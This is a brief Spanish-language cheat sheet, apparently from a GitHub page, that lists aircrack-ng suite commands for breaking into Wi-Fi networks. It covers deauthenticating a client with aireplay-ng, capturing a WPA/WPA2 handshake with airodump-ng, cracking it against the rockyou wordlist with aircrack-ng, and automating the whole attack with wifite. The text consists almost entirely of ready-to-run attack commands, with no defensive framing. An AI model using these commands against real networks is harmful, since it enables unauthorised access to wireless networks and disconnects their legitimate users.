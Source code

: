 ```bash
aireplay-ng -0 1 -a mac-router -c mac-cliente wlan0mon
```

craquear

```bash
aircrack-ng file-trafic
```



**redes wpa/wpa2**  

```bash
airmon-ng start wlan0
# extraer handshake y parar la escucha
airodump-ng -c 6 --bssid mac-router -w file-trafic-wpa wlan0mon
# intntar craquear handshake con diccionario local
aircrack-ng -w /usr/share/wordlists/rockyou.txt file-trafic-wpa 
```



**automático** 

De forma automática se puede intentar vulnerar una red con `wifite` ya vque por debajo esta utilizando `aircrack` . 

```bash
wifite
indicar en el listado la red
```

